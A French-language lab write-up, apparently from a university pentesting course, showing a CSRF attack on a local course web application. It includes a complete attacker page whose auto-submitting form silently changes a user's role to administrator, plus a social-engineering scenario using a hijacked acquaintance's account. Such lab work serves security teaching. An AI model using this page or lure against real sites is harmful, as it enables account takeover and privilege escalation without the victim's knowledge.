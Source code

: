## CSRF

Cet exemple illustre une attaque csrf sur le site web sti.

## Introduction

### Cible

L'attaque consiste à modifier le rôle d'un utilisateur pour le rendre administrateur.

### Condition 

Les conditions pour mener l'attaque à bien sont les suivantes

- L'attaquant connait les champs du formulaire permettant d'effectuer la requête POST
- L'attaquant a réussi à convaincre l'utilisateur de visiter son site web malveillant où se trouve sa page effectuant une requête POST.

Faiblesse de l'exemple :

- L'utilisateur sait que le rôle a été modifié car un message de confirmation s'affiche

### Démonstration

### Mise en place de l'infrastructure

L'attaquant possède un site web avec une page html contenant :

- Le formulaire a envoyer pour modifier le rôle de l'utilisateur
- Un code javascript effectuant directement la requête sans que l'utilisateur n'ait à le faire soi-même

### Page role.html

```html
<!DOCTYPE HTML>
<html>
    <head></head>
    <body>
    <form class='form' name="roleForme" method='POST' action="http://localhost:8080/index.php?action=vue_role&qIdUser=2" enctype="multipart/form-data">
  <!--
// vue_select_role.php
// Date de création : 07/10/2021
// Fonction : vue contenant les balises select pour changer le role d'un utilisateur
// __________________________________________
  -->
  <select  name="role">
      <option value="1"selected>Administrateur</option>
      <option value="2">Collaborateur </option>
    </select>
       <button type="submit" class="btn btn-primary" name="addRole">Envoyer</button>
    </form>
    <script language="javascript">document.roleForme.submit();</script>
</body>
</html>

```

Le code ci-dessus va automatiquement émettre une requête POST avec le contenu du formulaire dès que l'utilisateur est sur la page.

```javascript
<script language="javascript">document.roleForme.submit();</script>
```



### Scénario social engineering

Cette exemple illustre une façon possible pour convaincre l'utilisateur de cliquer sur le lien.

Il envoie le lien url de son site web et fait en sorte que l'utilisateur clique dessus. Par exemple, il a réussi à obtenir le compte email, facebook d'une connaissance de la victime. Il envoi l'email suivant :

![csrf-email](C:\Users\super\switchdrive2\HEIG\s5\sti\pentesting-sti\csrf\csrf-email.PNG)

L'utilisateur ne se méfie pas et clique sur lien url qui l'envoie sur le site malveillant contenant la page html (formulaire + script javasript)



### Résultat :

Une fois sur la page, le formulaire sera directement envoyé et l'action exécutée

Le rôle a bien été modifié !

![csrf-result](C:\Users\super\switchdrive2\HEIG\s5\sti\pentesting-sti\csrf\csrf-result.PNG)

Lorsqu'on se connecte en tant qu'user, on constate bien que la partie administration est dorénavant accessible![csrf-result2](C:\Users\super\switchdrive2\HEIG\s5\sti\pentesting-sti\csrf\csrf-result2.PNG)



Sources 

- https://portswigger.net/web-security/csrf

